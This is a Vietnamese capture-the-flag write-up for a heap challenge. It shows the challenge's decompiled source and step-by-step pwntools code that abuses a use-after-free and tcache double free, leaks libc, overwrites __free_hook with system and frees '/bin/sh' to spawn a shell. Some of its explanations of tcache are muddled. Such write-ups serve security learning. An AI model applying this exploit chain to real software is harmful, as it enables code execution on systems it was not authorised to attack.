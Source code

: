 # chall 1

## source

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Fh] [rbp-11h] BYREF
  int v4; // [rsp+10h] [rbp-10h] BYREF
  _DWORD size[3]; // [rsp+14h] [rbp-Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Ebook v1.0 - Beta version\n");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        menu();
        __isoc99_scanf("%d", &v4);
        __isoc99_scanf("%c", &v3);
        if ( v4 != 1 )
          break;
        printf("Size: ");
        __isoc99_scanf("%u", size);
        __isoc99_scanf("%c", &v3);
        ptr = malloc(size[0]);
        printf("Content: ");
        read(0, ptr, size[0]);
        *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
      }
      if ( v4 == 2 )
        break;
      switch ( v4 )
      {
        case 3:
          if ( ptr )
          {
            free(ptr);
            puts("Done!");
          }
          else
          {
LABEL_15:
            puts("You didn't buy any book");
          }
          break;
        case 4:
          if ( !ptr )
            goto LABEL_15;
          printf("Content: %s\n", (const char *)ptr);
          break;
        case 5:
          exit(0);
        default:
          puts("Invalid choice!");
          break;
      }
    }
    if ( !ptr )
      goto LABEL_15;
    printf("Content: ");
    read(0, ptr, size[0]);
    *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
  }
}
```

## Ý tưởng

- Ở đây file 2.31 có safe linking để ngăn chặn DFB [xem rõ hơn cơ chế hoạt động của safe linking ở đây](https://github.com/wan-hyhty/trainning/blob/b%C3%A1o-c%C3%A1o/b%C3%A1o%20c%C3%A1o%20l%E1%BA%A7n%203/heap-exploitation.md#libc-231)
- Đầu tiên ta sẽ thay đổi fd và bk bằng UAF để có thể double free nhưng safe linking không nhận ra
- Tiếp theo ta leak địa chỉ libc và ow \_hook

## Thực thi

- Bài này em có tham khảo wu a Quý =))

- Đầu tiên ta cần tạo một chunk với size tuỳ ý và free nó

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))
sla(b"> ", b"3")
```

- Ta kiểm tra chunk
  ![image](https://user-images.githubusercontent.com/111769169/234796684-99ab6f13-f936-4386-becb-f5d9317fd120.png)
- Đúng với lí thuyết, bk của chunk ta tạo sẽ là địa chỉ của chunk trước đó. Safe linking sẽ dựa vào bk để ngăn chặn DFB

- Đến đấy ta khai thác lỗi UAF ở option 2 để sửa bk chunk đã free và free chunk lần nữa

```python
sla(b"> ", b"2")
sa(b"Content: ", b"\0" * 0x20)
sla(b"> ", b"3")
```

![image](https://user-images.githubusercontent.com/111769169/234798303-7344d34b-0df0-4857-9264-0820d9ed108b.png)

- Tiếp đến ta leak libc
- Ở đây, khi ta double free thì fd bị loop như sau
  ![image](https://user-images.githubusercontent.com/111769169/234837508-bfcec32a-5fc6-47b3-aba1-ce5d7866a48a.png)
- Ta hoàn toàn có thể can thiệp vào vị trí của chunk bị loop kia bằng cáp thay đổi fd
- fd sẽ là địa chỉ của chunk sau nên nếu ta trỏ fd là địa chỉ của một got thì khi trỏ đến got nó sẽ lấy địa chỉ plt để leak libc
- Có thể do tcache là danh sách liên kết đơn, nghĩa là có fd và bk, và fd của chunk trước có thể là giá trị bk của chunk sau

```python
sla(b"> ", b"2")
sa(b"Content: ", p64(exe.sym["stderr"]))
```

![image](https://user-images.githubusercontent.com/111769169/234839401-fca0481e-befc-4b3a-97d7-2a152c75b276.png)

- Tcache hơi giống stack một tí nhưng khác nhau ở chỗ, stack là vào cuối- ra đầu, còn tcache là vào đầu - ra đầu (trong tcache, các chunk được đưa vào và lấy ra bằng cách sử dụng con trỏ forward)
- Vậy nghĩa là ta đang có 2 chunk, một chunk là đang trỏ ở heap, chunk còn lại đã bị thay đổi fd đang trỏ vào got của free mà ptr lại là địa chỉ của chunk nên ta phải gọi lại 2 lần thì ptr mới là địa chỉ của chunk 2(got của free)

- Tính libc base

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"abcde")

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"\xc0")
sla(b"> ", b"4")
p.recvuntil(b"Content: ")

libc_leak = u64(p.recv(6) + b"\0\0")
libc.address = libc_leak - libc.sym['_IO_2_1_stderr_']
info(hex(libc_leak))
info(hex(libc.address))
```

- Tiếp tục double free và use after free để ghi /bin/sh vào \_\_free_hook

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))
sla(b"> ", b"3")

sla(b"> ", b"2")
sa(b"Content: ", b"\0" * 16)
sla(b"> ", b"3")

sla(b"> ", b"2")
sa(b"Content: ", p64(libc.sym['__free_hook']))
```

- Giống như trước đó nhưng ở đây hơi khác
- Khi ta malloc lần thứ 2 thì ptr đang trỏ chứa `__free_hook` đang trỏ đến chuỗi ta vừa nhập, qua option 2 ta sẽ ghi vào `__free_hook`

![image](https://user-images.githubusercontent.com/111769169/234880535-47928d4c-3add-4261-8d2f-a933a7f6b9d2.png)

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"aaa")

sla(b"> ", b"2")
sa(b"Content: ", p64(libc.sym['system']))
```

- `__free_hook` được thiết lập, thì hàm free() sẽ trước tiên kiểm tra xem **free_hook có khác NULL hay không. Nếu **free_hook khác NULL, thay vì thực hiện việc giải phóng chunk trên heap, hàm free() sẽ gọi hàm được chỉ định bởi \_\_free_hook để xử lý việc giải phóng chunk
- Khi này, ta free() (option 3) thì free() thay vì giải phóng mà thực hiện hàm `__free_hook` chỉ định

```python

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"/bin/sh\0")
sla(b"> ", b"3")
```
